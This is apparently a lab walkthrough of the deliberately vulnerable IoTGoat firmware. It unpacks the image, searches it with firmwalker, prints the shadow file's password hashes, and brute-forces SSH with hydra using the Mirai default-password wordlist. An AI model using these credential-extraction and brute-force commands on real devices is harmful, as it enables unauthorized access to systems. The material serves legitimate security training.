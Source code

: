 It is a squashfs file system so we can use **unsquashfs**, which will allow us to unpack the squashfs file system:
```bash
unsquashfs iotgoat.bin
```

## Vulnerabilities
### No 1. Weak, Guessable or Harcoded Passwords

> Use of easily found, publicly available, or unmodifiable credentials, including backdoors in firmware or client software that allow unauthorized access to deployed systems.

**Firmwalker**

>[!INFO] This tool allows us to search the extracted firmware file system for **juicy elements** (_passwords, keys, info leak, etc_).

```bash
./firmwalker.sh ../firmware/_IoTGoat.img.extracted/squashfs-root/ ./IoTGoat.txt
```

Excerpt :
![[Pasted image 20240906164747.png]]

```bash
# in the squashfs folder of the unpacked firmware
cat etc/shadow

# output :
root:$1$Jl7H1VOG$Wgw2F/C.nLNTC.4pwDa4H1:18145:0:99999:7:::
daemon:*:0:0:99999:7:::
ftp:*:0:0:99999:7:::
network:*:0:0:99999:7:::
nobody:*:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
dnsmasq:x:0:0:99999:7:::
iotgoatuser:$1$79bz0K8z$Ii6Q/if83F1QodGmkb4Ah.:18145:0:99999:7:::
```

We have 2 password hashes: root and a user **iotgoatuser**.

### **Bruteforce SSH**

With the user found, we try a **bruteforce** attack on the ssh service (port 22).\
We use the **mirai-botnet** wordlist of **SecLists**, because it is using a wordlist with the common default IoT devices passwords.

```bash
# We want to filter only on the passwords because the list is of form user:password
awk '{print $2}' /usr/share/SecLists/Passwords/Malware/mirai-botnet.txt > /usr/share/SecLists/Passwords/Malware/mirai_pass.txt

# Bruteforce with Hydra
hydra -f -t 4 -l iotgoatuser -P /usr/share/SecLists/Passwords/Common-Credentials/mirai_pass.txt ssh://10.10.10.5
```
